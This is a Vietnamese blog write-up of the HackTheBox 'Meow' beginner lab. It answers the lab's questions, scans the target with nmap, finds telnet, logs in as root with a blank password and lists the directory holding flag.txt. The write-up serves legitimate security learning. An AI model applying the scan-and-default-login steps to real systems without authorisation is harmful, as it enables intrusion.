 ```yaml
---
title: HackTheBox | StartingPoint | Meow WriteUp
date: 2023-01-16 
categories: [HackTheBox, StartingPoint]
---
```



# [StartingPoint] Meow WriteUp

# 1. Trả lời các câu hỏi :

**Câu 01: What does the acronym VM stand for?**

→ Virtual Machine

**Câu 02: What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.**

→ terminal

**Câu 03: What service do we use to form our VPN connection into HTB labs?**

→ openvpn

**Câu 04: What is the abbreviated name for a 'tunnel interface' in the output of your VPN boot-up sequence output?**

→ tun

**Câu 05: What tool do we use to test our connection to the target with an ICMP echo request?**

→ ping 

**Câu 06: What is the name of the most common tool for finding open ports on a target?**

→ nmap

**Câu 07: What service do we identify on port 23/tcp during our scans?**

→ telnet

**Câu 08: What username is able to log into the target over telnet with a blank password?**

→ root

 

# 2. Thu thập Flags từ máy ảo :

## 2.1. Tổng quan về máy ảo :

### Kết nối đến máy ảo (meow) :

Kết nối với openvpn của starting point, sử dụng câu lệnh :

```bash
┌──(kali㉿kali)-[~/Desktop/hackthebox]
└─$ sudo openvpn --config /home/kali/Desktop/hackthebox/starting_point_Darko2212.ovpn
```

### Kiểm tra kết nối :

Ip address của máy ảo (meow) : 10.129.181.70

Kiểm tra kết nối → bằng lệnh ping.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ping 10.129.181.70    
PING 10.129.181.70 (10.129.181.70) 56(84) bytes of data.
64 bytes from 10.129.181.70: icmp_seq=1 ttl=63 time=207 ms
64 bytes from 10.129.181.70: icmp_seq=2 ttl=63 time=206 ms
64 bytes from 10.129.181.70: icmp_seq=3 ttl=63 time=207 ms
^C
--- 10.129.181.70 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2001ms
rtt min/avg/max/mdev = 206.009/206.781/207.441/0.590 ms
```

### **Các yêu cầu :**

- Thu thập thông tin.
- Khai thác lỗ hổng và leo thang đặc quyền.
- Lấy được nội dung của flags.txt

# 3. Thu thập thông tin :

## sử dụng nmap (tìm các cổng đang mở trên máy ảo) :

→ phát hiện cổng 23 (dịch vụ telnet).

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV -Pn 10.129.181.70
Starting Nmap 7.93 ( https://nmap.org ) at 2023-01-17 00:13 EST
Nmap scan report for 10.129.181.70
Host is up (0.20s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 49.66 seconds
```

# 4. Khai thác lỗ hổng :

Thử truy cập dịch vụ telnet bằng câu lệnh :

```bash
telnet 10.129.181.70
```

Chổ này đợi một chút cho nó tải lên, kết nối thành công sẽ hiển thị như bên dưới : 

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet 10.129.181.70
Trying 10.129.181.70...
Connected to 10.129.181.70.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login:
```

Chỗ này có thể dựa vào dữ liệu trong những câu hỏi, như câu hỏi thứ 09 có đề cập đến vấn đề về tài khoản không có mật khẩu, mình có thể thử những mật khẩu mặc định như “admin”, “administrator”, … nhưng theo gợi ý cho câu hỏi thì câu trả lời là “root” nên lấy thử luôn và kết quả là kết nối thành công.

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ telnet 10.129.181.70
Trying 10.129.181.70...
Connected to 10.129.181.70.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Tue 17 Jan 2023 05:26:10 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.181.70
  IPv6 address for eth0: dead:beef::250:56ff:fe96:94d5

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable

The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Tue Jan 17 05:15:52 UTC 2023 on pts/0
root@Meow:~#
```

# 5. Leo thang đặc quyền :

không cần thiết do sau khi đăng nhập vào máy ảo bằng telnet thì mình đã là root luôn rồi.

# 6. Thu thập flags :

Chỉ cần dùng câu lệnh “ls -alh” 

→ tìm được flags.txt

→ sử dụng “cat flag.txt” để đọc nội dung của flag.

 

```bash
root@Meow:~# ls -alh 
total 36K
drwx------  5 root root 4.0K Jun 18  2021 .
drwxr-xr-x 20 root root 4.0K Jul  7  2021 ..
lrwxrwxrwx  1 root root    9 Jun  4  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3.1K Oct  6  2020 .bashrc
drwx------  2 root root 4.0K Apr 21  2021 .cache
-rw-r--r--  1 root root   33 Jun 17  2021 flag.txt
drwxr-xr-x  3 root root 4.0K Apr 21  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   75 Mar 26  2021 .selected_editor
drwxr-xr-x  3 root root 4.0K Apr 21  2021 snap
root@Meow:~#
```

# 7. Tài liệu tham khảo :

[https://cheatography.com/davechild/cheat-sheets/linux-command-line/](https://cheatography.com/davechild/cheat-sheets/linux-command-line/)

[https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/](https://www.geeksforgeeks.org/nmap-command-in-linux-with-examples/)